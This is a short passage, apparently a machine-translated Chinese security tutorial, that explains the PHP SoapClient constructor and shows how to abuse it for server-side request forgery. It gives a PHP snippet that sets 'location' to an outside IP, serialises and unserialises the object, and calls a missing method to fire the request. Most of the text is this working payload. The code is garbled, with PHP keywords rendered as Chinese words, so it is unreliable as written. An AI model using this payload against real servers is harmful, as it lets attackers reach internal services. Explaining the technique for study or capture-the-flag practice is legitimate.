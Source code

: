 `该类的构造函数如下：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    public SoapClient :: SoapClient(混合$wsdl [，数组 $options ])  
      
  
---|---  
  
`  
`

  * `第一个参数是禁止是否是 wsdl 模式，如果值设为 null 则表示非 wsdl 模式。`

  * `第二个参数为一个数组，如果在wsdl模式下，此参数选择；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要请求发送到SOAP服务器的URL，而uri是SOAP服务的特有空间。`

## `使用 SoapClient 类进行 SSRF`

`知道前面两个参数的含义后，就容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的位置选项设置为target_url。`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $a = new SoapClient( null , array ( 'location' => 'http://47.xxx.xxx.72:2333/aaa' , 'uri' => 'http://47.xxx. xxx.72:2333' ));   
    $b = 序列化( $a );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      